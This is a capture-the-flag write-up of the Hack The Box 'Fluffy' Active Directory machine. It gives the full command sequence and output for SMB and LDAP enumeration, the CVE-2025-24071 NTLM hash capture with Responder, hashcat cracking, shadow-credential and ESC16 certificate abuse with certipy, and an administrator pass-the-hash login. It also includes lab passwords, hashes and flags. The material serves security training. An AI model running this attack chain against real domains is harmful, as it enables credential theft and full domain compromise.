

# PORT SCAN
---

| PORT     | SERVICE                      |
|----------|------------------------------|
| 53/tcp   | domain (Simple DNS Plus)     |
| 88/tcp   | kerberos-sec                 |
| 139/tcp  | netbios-ssn                  |
| 389/tcp  | ldap                         |
| 445/tcp  | microsoft-ds?                |
| 464/tcp  | kpasswd5?                    |
| 593/tcp  | ncacn_http                   |
| 636/tcp  | ssl/ldap                     |
| 3268/tcp | ldap                         |
| 3269/tcp | globalcatLDAPssl?           |
| 5985/tcp | http (Microsoft HTTPAPI 2.0) |


# RECONNAISSANCE
---


We are dealing with a windows machine, let's try some basic enumeration first, as always, we are provided with some credentials:

```
j.fleischman / J0elTHEM4n1990!
```


First of all, let's add the dc and domain to `/etc/hosts`:

```
echo '10.10.11.69 DC01.fluffy.htb fluffy.htb' | sudo tee -a /etc/hosts
```

Now, we can begin with some enumeration, we will enumerate:

```
SMB
LDAP
KERBEROS USERNAME ENUMERATION
WINRM ACCESS
BLOODHOUND
```


```
smbclient -L \\\\DC01.fluffy.htb -U 'fluffy\\j.fleischman'

Can't load /etc/samba/smb.conf - run testparm to debug it
Password for [j.fleischman]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```


As seen, we got an `IT` share on here, let's check it out:

```
smbclient \\\\DC01.fluffy.htb\\IT -U 'fluffy\\j.fleischman'

smb: \> ls
  .                                   D        0  Sat Jun  7 01:06:27 2025
  ..                                  D        0  Sat Jun  7 01:06:27 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 15:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 15:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 15:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 15:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 14:31:07 2025
```

We got some stuff on here, let's get it for analysis:

```
smb: \> mget *
```


We got a bunch of files on here, most of them didn't have much relevant information but we can find this on the pdf file:

![[Pasted image 20250606131829.png]]


![[Pasted image 20250606131844.png]]


It is saying that a patch will be done for those CVE's, it would be a nice approach to check them out as they may haven't been patched yet:

![[Pasted image 20250606132002.png]]

![[Pasted image 20250606132018.png]]


![[Pasted image 20250606132036.png]]

![[Pasted image 20250606132056.png]]


![[Pasted image 20250606132126.png]]


![[Pasted image 20250606132158.png]]

We got a bunch of `CVE's` one interesting one is the `CVE-2025-24071` we can read this description on the following GitHub repository:

Repo: https://github.com/ThemeHackers/CVE-2025-24071

![[Pasted image 20250606132807.png]]


That means we can get the NTLM hash of an user, before doing all this, let's continue our enumeration:

```
ldapsearch -x -H ldap://DC01.fluffy.htb -D "fluffy\\j.fleischman" -w 'J0elTHEM4n1990!' -b "dc=fluffy,dc=htb"
```

We get a bunch on information on here, let's get users using `GetUsersSPNs`:


```python
python3 GetUserSPNs.py fluffy.htb/j.fleischman:J0elTHEM4n1990! -dc-ip DC01.fluffy.htb

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName    Name       MemberOf                                       PasswordLastSet             LastLogon                   Delegation
----------------------  ---------  ---------------------------------------------  --------------------------  --------------------------  ----------
ADCS/ca.fluffy.htb      ca_svc     CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-17 16:07:50.136701  2025-05-21 22:21:15.969274
LDAP/ldap.fluffy.htb    ldap_svc   CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-17 16:17:00.599545  <never>
WINRM/winrm.fluffy.htb  winrm_svc  CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-05-18 00:51:16.786913  2025-05-19 15:13:22.188468
```


```
crackmapexec winrm DC01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!'

CrackMapExec is deprecated and has been replaced by NetExec.
This binary is just an alias for netexec command.
WINRM       10.10.11.69     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
WINRM       10.10.11.69     5985   DC01             [-] fluffy.htb\j.fleischman:J0elTHEM4n1990!
```


Let's proceed to use `bloodhound-python`:

```
# First, do this:

sudo rdate -n 10.10.11.69
bloodhound-python -u j.fleischman -p 'J0elTHEM4n1990!' -d fluffy.htb -ns 10.10.11.69 -c ALL --zip
```


We will get a `.zip` file we can use on bloodhound:


![[Pasted image 20250606141055.png]]


We got some users:

```
j.coffey
p.agila
```


![[Pasted image 20250606141802.png]]


As seen, `p.agila` and `j.coffey` are members of `service account managers` which has `GenericAll` over `service accounts`:

![[Pasted image 20250606141906.png]]

Service accounts has got `GenericWrite` over those accounts, let's check `ca_svc`:

![[Pasted image 20250606142240.png]]


Nice, knowing all this, we can begin with our attack path, let's proceed to exploitation to explain it.


# EXPLOITATION
---

So, we've already enumerated the domain, now we need to know which path to take, the path we'll be taking is:





Nice, let's begin with this then, first of all, let's get our `CVE-2025-24071` exploit:

```
git clone https://github.com/ThemeHackers/CVE-2025-24071
```

We will need `responder` to perform the hash capture:

```
python3 exploit.py -i TUN0_IP -f revshell
```

![[Pasted image 20250606144452.png]]

Now, we need to set up responder and upload the file into smb:

```
sudo responder -I tun0 -v
smbclient //10.10.11.69/IT -U j.fleischman%J0elTHEM4n1990! -c "put exploit.zip"
```

![[Pasted image 20250606144808.png]]

There we go, as seen, we get the hash, we can crack it with `hashcat`:

```
p.agila::FLUFFY:590f821b7be7929e:8180EE8BA684122CDA526075B1BA37FE:0101000000000000800F055F34D7DB01AAE886379E963F6A0000000002000800450031004800510001001E00570049004E002D00560038005400420033005800590031005A003000460004003400570049004E002D00560038005400420033005800590031005A00300046002E0045003100480051002E004C004F00430041004C000300140045003100480051002E004C004F00430041004C000500140045003100480051002E004C004F00430041004C0007000800800F055F34D7DB0106000400020000000800300030000000000000000100000000200000B6A8993EBE4E713F5F6D859A5F6424F5117744AF8B0289F8B2C0274124FA3D440A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380032000000000000000000
```

```
hashcat -m 5600 -a 0 p_agila_hash.txt /usr/share/wordlists/rockyou.txt
```

We get this:

![[Pasted image 20250606145038.png]]

Got our password:

```
prometheusx-303
```

Since we already got the credentials for the `p.agila` user we can now add it to `Service Acounts` group, we can use `bloodyAD` for this:

```
bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember 'Service Accounts' p.agila
[+] p.agila added to Service Accounts
```

Nice, now we can abuse the `GenericWrite` on `ca_svc` to write a shadow credential in order to issue trusted certificates, A shadow credential is basically a hidden or alternate credential linked to a user or service account in Active Directory but stored _outside_ of the usual password attributes, typically in certificate-based authentication fields.

Think of it like a secret backup key for an account, often in the form of a certificate or a private key that's associated with the account but doesn't rely on the normal password.


Knowing this info, we can use `certipy` to perform this attack:

```
pip install certipy-ad

certipy shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account ca_svc
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '2360c0d8-3516-b842-5220-261627959bc2'
[*] Adding Key Credential with device ID '2360c0d8-3516-b842-5220-261627959bc2' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '2360c0d8-3516-b842-5220-261627959bc2' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': None
```


As seen, we got a `Clock skew too great` error, we can fix this by doing:

```
timedatectl set-ntp 0
sudo ntpdate 10.10.11.69
```


Now, let's run it again (If you didn't do this before, you need to add `p.agila` to `service accounts` again) :

```
bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember 'Service Accounts' p.agila
[+] p.agila added to Service Accounts

certipy shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account ca_svc
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd4bd21e6-11c1-f3f5-c33d-855f2cd61794'
[*] Adding Key Credential with device ID 'd4bd21e6-11c1-f3f5-c33d-855f2cd61794' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'd4bd21e6-11c1-f3f5-c33d-855f2cd61794' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

Nice, we got the hash and the `ca_svc.ccache` file, we need to use the `KRB5CCNAME` to specify the `.ccache` file:

```
export KRB5CCNAME=ca_svc.ccache
```

Now, based on our attack path, we need to check any misconfigured certificate we are able to abuse, let's use `certipy-ad`:

```
certipy-ad find -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -vulnerable
```

This will output this:

```
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```


We are dealing with `ESC16`, checking on the internet on how to exploit this, I found this perfect medium post:

Post: https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6

![[Pasted image 20250606151949.png]]


![[Pasted image 20250606152007.png]]


With this in our hands, let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

Based on the post, we need to follow these steps:

1. Change the UPN of `ca_svc` to `administrator@fluffy.htb`.

2. Request a certificate for the `User` template (or any template that allows enrollment by `ca_svc` and has client authentication).

3. Revert the UPN change (optional).

4. Use the certificate to authenticate as administrator.


Let's do it:

```
certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```


```
certipy-ad req -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 15
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

We go the certificate, let's revert the UPN and authenticate as admin:

```
certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

```
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb' -dc-ip 10.10.11.69

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

There we go, we got our hash, let's go into `evil-winrm`:

```
evil-winrm -i 10.10.11.69 -u administrator -H '8da83a3fa618b6e3a00e93f676c92a6e'
```


![[Pasted image 20250606152511.png]]

We can now read both flags:

```
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
79a90ba7a8a83e0ac0a802408b90bfb9

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e672962e9a5076674107c865597e5699
```

https://www.hackthebox.com/achievement/machine/1872557/662

![[Pasted image 20250606152658.png]]

